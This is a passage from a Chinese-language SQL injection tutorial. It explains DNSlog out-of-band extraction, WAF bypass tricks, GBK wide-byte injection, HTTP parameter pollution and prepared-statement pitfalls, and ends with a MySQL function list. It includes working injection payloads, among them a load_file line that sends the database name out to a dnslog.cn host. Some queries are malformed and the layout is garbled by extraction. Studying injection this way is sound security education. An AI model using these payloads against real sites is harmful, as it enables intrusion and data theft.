
2.注入测试 需要闭合语句 替换标识符 利用盲注回显
1 ?id=1 ' and if((select load_file(concat(' \\\\',(select database()),' .tlyypi.dnslog.cn\\abc'))),1,0)--+

在回显数据时，域名能够接受的字符是有条件限制的，某些不适合作为域名的特殊字符可能会被屏蔽掉，针对这种情况我们也可以base64编码后再进行请求。
0x05 SQLI防御及绕过
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 WAF产生的背景：
5.1 嵌套及大小写混淆绕过
如果后台存在这样的语句
1 2 3 4 5 $arg =str_replace ('union' ,'' ,$_GET ['id' ]) $arg =preg_replace ('/union/i' ,'' ,$_GET ['id' ])
我们可以这样构造payload
1 2 3 4 5 ?id=1 ' ununionion select 1,2,3%23 //上面两种用法均可这样绕过 str_replace函数时不区分大小写的我们还可以通过UNion来绕过 ?id=1' UNion select 1 ,2 ,3 --+
5.2 空格被过滤的绕过
通过内内联注释
1 2 ?id=1 ' /**/union/**/order/**/by/**/2 %23 //这里/* */中间部分的符号因题而异，可能会有字符的过滤，需要一个一个尝试，或者bp爆破
通过括号–emmmmm基本没啥用，就当作SQL语句的拓展吧（倒是可以跟报错注入利用，毕竟报错注入需要的空格少）
5.3 逗号被过滤的绕过
1 2 3 select substr (database () from 1 to 1 );mid (database () from 1 to 1 );
作用也不大，用到逗号的地方很多，如要查两个字段union select username,passwd这里的逗号就不能这样写，当然我们可以每次只查一个字段。
5.4 空字节绕过（也就是%00截断）
用于绕过一些入侵检测系统，如ids ips等，这些检测系统一般都是用原生语言编写的，而这些语言检验字符串的结尾是通过检测空字节，在被检测系统检测的字符前面加上一个空字节就可以欺骗检测系统忽略被检测字符。%00-空字节
5.5 编码绕过
我们可以通过编码的方式欺骗后端的过滤机制
1 2 3 4 5 1 . char select (char (67 ,58 ,45 ,56 ,67 ,45 ,35 ,44 ,3 ));2 . 16 进制编码 0x234532e34f2a34b 3 . hex4 . unhex select convert (unhex ('e3f23a44b445' )using utf8)5 . to_base64 (),from_base64 ()
5.6 引号被转义
背景知识:
1 2 3 4 5 6 7 8 9 10 11 字符集
1 2 3 4 5 6 7 8 9 10 11 GBK编码，是在GB2312-80标准基础上的内码扩展规范，使用了双字节编码方案，其编码范围从8140至FEFE（剔除xx7F），共23940个码位，共收录了21003个汉字，完全兼容GB2312-80标准，支持国际标准ISO/IEC10646-1和国家标准GB13000-1中的全部中日韩汉字，并包含了BIG5编码中的所有汉字——（摘自百度百科）。
假设当前数据库使用GBK编码集，数据库会将输入的参数%df%5c解析为两个字节：
其中%df为高位字节，编码位是223；%5c为低位字节，编码位是92；%df%5c的GBK编码取值范围就是：第一个字节是129—254，第二个字节是64—254，数据库会按照GBK编码将%df%5c解析成一个汉字，这样“\”就会失去原来的作用。
在上图中，数据库将参数%df%5c按照GBK编码集解析成上图中的汉字：運，这种方式就是宽字节注入。
宽字节注入有前提：要求目标MYSQL数据库的编码方式是GBK编码，并且客户端必须和数据库的编码方式一致，这样才能使用宽字节注入方式，宽字节注入过程如下所示：
为了突破这个防护，我们可以使用宽字节注入的方式来进行突破，使用：
当我们在单引号之前加上%df的时候，也就是输入%df ’ 这样传入到数据库中就会变成：
原理是在GBK编码中，%df与 \ 的转义符 %5c结合会编码成一个汉字，这样就使得 ’ 逃逸了。此外 %DE%5C,%E0%5C也都是可以的。
eg：
传入1’时，返回结果出现1’ ',此处是不存在sql注入漏洞的，但是有一个特例，就是当数据库编码为GBK时可以使用宽字节注入，宽字节的格式是在地址后加一个%df，再加单引号，因为反斜杠的编码为%5c，而再GBK编码中%df%5c为一个繁体字，此时查询就会出错，一般结合Union注入使用。
1%df' union select 1,2,3 %23查看输出位置
查询表名时，一般使用语句
1%df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23
查询列名的时候会有所不同，因为对单引号进行了过滤
1 select 1 ,2 ,group_concat (column_name) from information_schema.columns where table_schema=database () and table_name=(select 1 ,2 ,group_concat (table_name) from information_schema.tables where table_schema=database ()) %23
还有一些例如cookie注入，base64注入，和XFF注入，类型相似，不一一讲解了
1 2 3 4 5 6 and ⇒ &&or => ||between () ,like 0 ,1 => limit 0 offset 1
5.7 HTTP参数污染

客户端在访问服务器端时，需要先经过一个tomcat服务器，这个tomcat服务器中部署的过滤代码充当了waf的功能。输入的参数经过tomcat服务器过滤后，再被传入到真正的服务端apache服务器上处理，然后逐层返回到客户端。
这里传入的参数只有一个，名为id，当我们强行传入两个名都为id的参数时，waf获取的是第一个参数，而忽略第二个参数，则对第二个参数的内容不做任何检查和过滤，这样第二个参数就可以传入到apache服务器端，进行解析。
我们在url后面输入login.php进入到受waf保护的界面
1 ?id=0 &id=-1 ' union select 1,2,database() --+
5.8 预编译绕过
5.8.1 简介
SQL注入是因为解释器将传入的数据当成命令执行而导致的，预编译是用于解决这个问题的一种方法。和普通的执行流程不同，预编译将一次查询通过两次交互完成，第一次交互发送查询语句的模板，由后端的SQL引擎进行解析为AST或Opcode，第二次交互发送数据，代入AST或Opcode中执行。因为此时语法解析已经完成，所以不会再出现混淆数据和代码的过程。
5.8.2 模拟预编译
为了防止低版本数据库不支持预编译的情况，模拟预编译会在客户端内部模拟参数绑定的过程，进行自定义的转义。
5.8.3 绕过
5.8.3.1 预编译使用错误
预编译只是使用占位符替代的字段值的部分，如果第一次交互传入的命令使用了字符串拼接，使得命令是攻击者可控的，那么预编译不会生效。
5.8.3.2 部分参数不可预编译
在有的情况下，数据库处理引擎会检查数据表和数据列是否存在，因此数据表名和列名不能被占位符所替代。这种情况下如果表名和列名可控，则可能引入漏洞。
5.8.3.3 预编译实现错误
部分语言引擎在实现上存在一定问题，可能会存在绕过漏洞。
5.9 绕过or和and的
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 1、大小写变形：将原本的 or 和 and 替换为：Or、oR、And、AND、aND、aNd等等。
5.10 绕过空格和注释符
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 绕过注释符方法：使用 or '1'='1 或者 and '1'='1 替换，这里理解一下注释符号的作用就可以，我们只要把后面的符号想办法闭合就可以，单引号可以随时替换，主要是根据sql语句的闭合方式决定使用什么符号闭合。
0x06 Mysql常见函数
=、>、>=、<= 、<>
比较运算符
and、or
逻辑运算符
version( )
mysql数据库版本
database( )
当前数据库名
sleep( )
睡眠时间为指定的秒数
if(true,t,f)
if判断
length( )
返回字符串的长度
substring( )
截取字符串三个函数作用相同有三个参数 mid(“1”,2,3)1.截取的字符串2.截取起始位置，从1开始计数3.截取长度
substr( )
截取字符串三个函数作用相同有三个参数 mid(“1”,2,3)1.截取的字符串2.截取起始位置，从1开始计数3.截取长度
mid( )
截取字符串三个函数作用相同有三个参数 mid(“1”,2,3)1.截取的字符串2.截取起始位置，从1开始计数3.截取长度
left( )
从左侧开始取指定字符个数的字符串
concat( )
没有分隔符的连接字符串
concat_ws ( )
含有分割符的连接字符串
group_conat( )
连接一个组的字符串
ord( )
返回ASCII码
ascii( )
返回ASCII码
hex( )
将字符串转换为十六进制
unhex( )
hex的反向操作
md5( )
返回MD5值
floor(x)
返回不大于x的最大整数
round ( )
返回参数x接近的整数
rand( )
返回0-1之间的随机浮点数
load_file( )
读取文件，并返回文件内容作为一个字符串
find_in_set( )
返回字符串在字符串列表中的位置
benchmark( )
指定语句执行的次数
name_const ( )
返回表作为结果
user( )
用户名
current_user( )
当前用户名
system_ user( )
系统用户名
@@datadir
数据库路径
@@versoin_compile_os
操作系统版本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 user() //返回当前使用数据库的用户
INFORMATION_SCHEMA数据库
mysql5.0以下没有该表

0x07 数据库检测
7.1 MySQL
7.2 Oracle
7.3 SQLServer
7.4 PostgreSQL